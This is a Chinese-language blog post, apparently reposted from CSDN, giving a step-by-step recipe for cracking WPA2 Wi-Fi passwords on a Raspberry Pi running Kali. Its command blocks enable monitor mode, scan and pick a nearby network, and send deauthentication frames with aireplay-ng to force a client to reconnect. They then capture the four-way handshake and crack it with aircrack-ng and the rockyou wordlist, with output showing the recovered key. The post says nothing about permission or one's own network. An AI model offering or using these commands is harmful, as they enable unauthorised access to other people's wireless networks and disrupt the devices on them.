 ```yaml
---
title: 获取WIFI握手包
date: 2018-06-14 00:14:00
tags:
- RespberryPi
categories:
- RespberryPi
---
```



#### 1. 说明
&emsp;树莓派3B已经成为arm主流开发板，不仅有成熟完善的raspbian系统，还可以安装Ubuntu、Centos、Kali系统，因此，树莓派可以做各种各样的事，接下来，我就介绍下树莓派破解Wi-Fi密码的过程。
 
<!--more-->

#### 2.安装kali
&emsp;因为Kali是一个专门的网络渗透系统，自带很多工具，所以就采用直接安装Kali来使用airmon-ng工具。
下载地址：https://www.offensive-security.com/kali-linux-arm-images/

> 下载下来是kali-2017.3-rpi3-nexmon.img.xz文件。  
> 在Windows下直接使用解压缩软件解压。   
> 在Linux下用 xz -d kali-2017.3-rpi3-nexmon.img.xz 解压。  
> 得到的img文件就可以直接使用了，将其写入TF卡即可。


#### 3.升级Kali
> 将树莓派插上显示屏和鼠标键盘。  
> 用户：root  
> 密码：toor  

``` bash
# 打开Terminal，执行
echo "deb http://mirrors.tuna.tsinghua.edu.cn/kali kali-rolling main contrib non-free" > /etc/apt/sources.list
apt update && apt upgrade -y

# 安装完整版kali
# apt install kali-linux-all

# 安装Extend Filesystem（可选）
# apt install gparted -y

# 安装xrdp [不能插上显示屏使用]
# apt install xrdp
# 开机自启
# update-rc.d xrdp enable
```
---

#### 4.开始破解

> 破解过程如下：
> - 找到设备iwconfig并开启监控
> - 查看附近的Wi-Fi，并选择一个
> - 攻击并开始抓包，得到handshake
> - 下载字典，开始破解

``` bash
# 查看得到网卡名为wlan0：
iwconfig
# 内容如下：
eth0      no wireless extensions.

wlan0     IEEE 802.11  ESSID:off/any  ...

# 找到Wi-Fi代号为wlan0，接着启动monitor模式：
airmon-ng start wlan0

# 查看附近的无线网络
airodump-ng wlan0mon
# 内容如下：
BSSID              PWR  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                             

 F2:B4:29:E5:1C:74   -1        0       20    0   6  -1   OPN              <length:  0>                                      
 94:77:2B:47:92:1C  -74      119     1842   49   7  54e  WPA2 CCMP   PSK  HUAWEI-RF4BXM                                  
 14:75:90:DB:90:91  -81       53        0    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091    

# 选择一个Wi-Fi，复制BSSID，记下CH信道，组合如下命令开始攻击抓包
# [演示选择TP-Link：airodump-ng wlan0mon --bssid 复制的BSSID -c CH信道 -w 保存名]
airodump-ng wlan0mon --bssid 14:75:90:DB:90:91 -c 11 -w wificrack

# 可以看到，有一台设备连接到该路由WiFi，但此时没有设备连入，故抓不到完整4步握手包。
# 若抓不到4步握手，则通过以下命令断开设备与WiFi的连接，使其重新建立连接从而可以抓取四步握手信息：
# 新开一个Terminal窗口：[参数：攻击2次，路由ssid和设备Mac地址]
aireplay-ng -0 2 -a 14:75:90:DB:90:91 -c 54:DC:1D:27:0D:50 wlan0mon

# 原窗口得到握手包：内容如下：
 CH 11 ][ Elapsed: 5 mins ][ 2018-01-29 05:52 ][ WPA handshake: 14:75:90:DB:90:91                                           

 BSSID              PWR RXQ  Beacons    #Data, #/s  CH  MB   ENC  CIPHER AUTH ESSID                                         

 14:75:90:DB:90:91  -71  93     3136       43    0  11  54e. WPA2 CCMP   PSK  TP-LINK_DB9091                                

 BSSID              STATION            PWR   Rate    Lost    Frames  Probe                                                  

 14:75:90:DB:90:91  54:DC:1D:27:0D:50  -39    0e- 0e     0       44  TP-LINK_DB9091 

通过ls wificrack*命令查看抓到的信息保存的文件（多的wpa包是之前做测试保存下来的）：

这里看最新的那个即wifi-04即可，可以看到总共有4个。

# 后面使用Kali Linux中默认存在的字典，目录[需要使用命令来解压]
/usr/share/wordlists/rockyou.txt.zip
# 这里顺便记录一下Kali中几个常用的字典文件的位置：
/usr/share/john/password.lst
/usr/share/wfuzz/wordlist
/usr/share/ wordlists

# 如果没有该文件，就需要下载：
wget http://scrapmaker.com/data/wordlists/dictionaries/rockyou.txt

# 破解：[rockyou.txt是字典、wifi-01.cap是抓包]
aircrack-ng -w rockyou.txt wificrack-01.cap
# 结果如下：[密码为：12345678]
                                 Aircrack-ng 1.2 rc4                                                                        

      [00:00:00] 4/4 keys tested (31.56 k/s)                                                                                

      Time left: 0 seconds                                     100.00%                                                      

                           KEY FOUND! [ 12345678 ]                                                                          
# 关闭wlan0无线网卡monitor mode
airmon-ng stop wlan0mon
```

注:本文转自[树莓派3B+ 破解Wi-Fi密码](https://blog.csdn.net/kxwinxp/article/details/79187472),亲测有效^-^ !!!


 

